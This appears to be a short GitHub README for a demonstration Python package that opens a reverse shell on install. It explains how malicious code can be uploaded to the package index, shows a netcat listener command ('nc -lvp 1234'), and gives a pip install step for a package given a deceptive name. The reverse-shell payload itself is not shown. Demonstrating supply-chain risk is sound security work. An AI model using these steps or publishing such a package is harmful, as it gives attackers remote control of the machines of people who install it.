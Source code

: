 # Explanation:

This is Simple Python Reverse Shell module.
It is show how one can write a exploit and upload a malicious code to pyorg.
If installed how the attacker can get over your machine.

1. First Listen on 1234 port with netcat
`nc -lvp 1234`

2. Install the package 
`pip install much_needed_python_package`

#### Demo :
<a href=https://youtu.be/NOoJItXU9ps>
<img src="https://media4.giphy.com/media/GlXNuhLEjIUTAfIVpC/giphy.gif?cid=ecf05e47v0qmxkcev5dyurr35agj868z9j9nt3oglw2ed0k3&rid=giphy.gif&ct=s" width="100" height="50"/>
</a>
